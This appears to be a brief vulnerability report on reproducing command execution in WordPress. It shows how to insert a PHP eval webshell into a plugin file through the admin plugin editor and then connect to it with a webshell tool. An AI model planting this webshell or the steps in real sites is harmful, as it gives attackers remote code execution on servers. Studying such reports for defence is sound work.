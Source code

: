# WordPress Background command execution vulnerability 
## Build the local environment
https://cn.wordpress.org/download/#download-install
## Vulnerability recurrence

/wp-admin/profile.php
![image](https://user-images.githubusercontent.com/45749015/216503131-25f90fa2-17f2-48f5-b52f-579d49ab3c1c.png)

Click >> Tools  >> Plugin File Editor  >>  Change Code hello.php   >>  Add Code `<?php eval(@$_POST['password']);?>`
 >> Save
 ![image](https://user-images.githubusercontent.com/45749015/216503630-cbe9baa1-aff5-4dbc-be66-9107e5102a0b.png)
Use the webshell management tool to connect
![image](https://user-images.githubusercontent.com/45749015/216503750-c1decaba-45bf-464d-9b5f-1af9ea720f43.png)
![image](https://user-images.githubusercontent.com/45749015/216503781-51f44f7b-af40-4dbd-8500-f736b217c86c.png)
## code analysis
Get address:
![image](https://user-images.githubusercontent.com/45749015/216503925-9d8f3295-946c-4d5b-b461-b7b0e8c3d94b.png)
The content is not filtered, resulting in the successful saving of illegal programs
![image](https://user-images.githubusercontent.com/45749015/216503967-c5fd373d-3d91-47a1-aaaf-87f931f3bc1e.png)

